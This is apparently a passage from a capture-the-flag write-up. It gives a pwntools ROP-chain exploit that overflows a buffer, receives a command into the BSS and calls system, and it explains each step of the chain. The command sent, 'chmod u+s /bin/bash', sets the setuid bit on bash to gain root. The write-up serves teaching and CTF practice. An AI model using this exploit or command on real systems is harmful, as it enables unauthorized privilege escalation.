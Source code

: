 ```python
command = b'chmod u+s /bin/bash'

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi = next(libc.search(asm('pop rsi; ret')))
pop_rdx_rcx_rbx = next(libc.search(asm('pop rdx; pop rcx; pop rbx; ret')))

payload  = b''
payload += 0x418 * b'A'
payload += p64(pop_rdi)
payload += p64(fd)
payload += p64(pop_rsi)
payload += p64(binary.bss())
payload += p64(pop_rdx_rcx_rbx)
payload += p64(len(command))
payload += p64(0)
payload += p64(0)
payload += p64(binary.plt.recv)
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(libc.sym.system)

p.sendlineafter(b'password:', b'loveandbeauty')
p.sendlineafter(b'processed:\n',payload)
sleep(0.1)
p.send(command)
p.stream()
```        

The header is basically the same, but I added the hardcoded libc address locations.

From libc we have all the gadgets we need to set the four registers--something you can do if you have both the version of libc (included), and the location (apparently included, but nobody told me :-).

This single pass ROP chain is pretty straight forward:

1. `pop` in the four parameter for `recv`
2. call `recv` to receive our `command` into the BSS
3. `pop` in the location of the BSS into `rdi`
4. call `system`

The `sleep` is required so that `recv` will stop reading and not consume our `command` as part of the initial `recv` (the one called from `recv_message`, not our ROP chain `recv`).  The other option would have been to pad out the payload to the full `0x800` bytes (this is usually the better option, but I was lazy).
